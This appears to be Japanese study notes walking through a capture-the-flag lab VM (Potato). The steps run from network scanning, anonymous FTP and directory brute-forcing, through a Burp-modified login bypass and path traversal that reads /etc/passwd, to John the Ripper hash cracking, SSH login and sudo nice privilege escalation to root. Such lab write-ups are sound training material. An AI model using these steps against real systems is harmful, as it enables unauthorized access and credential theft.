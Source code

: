 ## 目的
- user.txtとroot.txtの中身を見る

## 準備
- PotatoOSの起動はヘッドレスモードでいい
## 実践 343~
- 自分のIPアドレスを知る
  - `ip a` 他のコマンドだと何？
- ネットワークサーチ。ターゲットサーバのIPアドレスを知るため(次の3つは全部同じネットスキャン)
  - ターゲットサーバは消去法で見つける
  - netdiscoverは自身のアドレスは出てこない
  ```
  netdiscover -i enp0s3 -r 192.168.56.0/24　　
  sudo fping -aqg 192.168.56.0/24
  sudo nmap -sn 192.168.56.0/24
  ```
- ターゲットサーバは何度も使うIPアドレスなので環境変数に登録すると便利
  - `export IP=192.168.56.?` 
- ポートスキャン
  - `nmap -sC -sV -Pn -p- $IP`
  - `-sV` ソフトウェア名とバージョンを表示する
  - `-Pn` スキャン前にpingしない
  - `-p-` 全ポートに対してスキャンする
  - 22,80,2112の3つのポートが空いているのがわかる 
- 2112ポートの攻略
  - ftpでファイルを取得
  - ftpコマンドはParrotOSにはデフォルトで入っていないので、一度ネットワークをNATにして、ftpコマンドをaptで得る。取得後はネットワークをローカルホストに戻す
  - `sudo apt update`, `sudo apt install ftp`
  - `ftp $IP ポート番号`
  - user:`anonymous`, password:` ` 入力後にプロンプトが返ってくる
  - lsコマンドでファイルがわかる
  - getコマンドでファイルを取得後にexitで抜ける
  - index.phpは後で役に立つ 
- fileコマンドで危険なファイルかもしれないので中身を確認
  - file ファイル名
  - ソースの認証部分を読むとパスワード書いてあることがわかる
- 80ポートの攻略
- 環境変数の設定
  - `export URL="http://192.168.56.101:80/"`
- gobuster
  - 通常には見えない隠しサイトを探してくる 
  - `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt` 
- Webブラウザで確認
  - `192.168.56.101/admin`
  - 確認したら閉じる
- BurpSuiteで認証
  - OSのMenuからBurpSuiteを起動、全部デフォルトでOK 
  - proxy(intercept is onの状態で) open browser
  - 192.168.56.101/adminと入力して Forward
  - adminとtestと入力してlogin
  - Interceptで書き直す
  - HTTPリクエスト `password[]=test`と書き直す
  - Forwardを押す
  - `Intercept is off`にするとマウスで操作できる
  - logsに移動して適当にボタン押す
  - そして`intercept is on`にしてForwardボタンを押す
  - HTTPリクエスト `file=../../../../../etc/passwd`と書き直してForwardボタンを押す
  - 表示をコピーする
- John the ripperで使うファイルを作る
  - `cat > pass.txt` ここでペーストして、ctrl + d　で抜ける
  - `cat pass.txt | grep -P 'sh$' | grep webadmin > hash.txt`
- John the ripper
  - OSのMenuからjohnを検索して起動する 
  - 本ではrockyou.txtを使っているが、ファイルは見つからないのでjohn.lstを使う
  - `john hash.txt --wordlist=/usr/share/wordlists/john.lst`
- sshでリモートに接続
  - `ssh webadmin@192.168.56.101`
  - password `dragon`
  - lsコマンドでuser.txtがあるので１つ目のflagを取得、ただし中身が変換されているので直す
  - `cat user.txt | base64 -d`
- userのroot権限を調べる
  - `sudo -l`
  - niceコマンドが引数`/notes/*`ディレクトリにあるファイルは全てルート権限で実行できる
  - `sudo /bin/nice /notes/../bin/bash` 
- root権限
  - `cd /root`
  - `ls`
  - `cat root.txt`　２つ目のflagを取得 
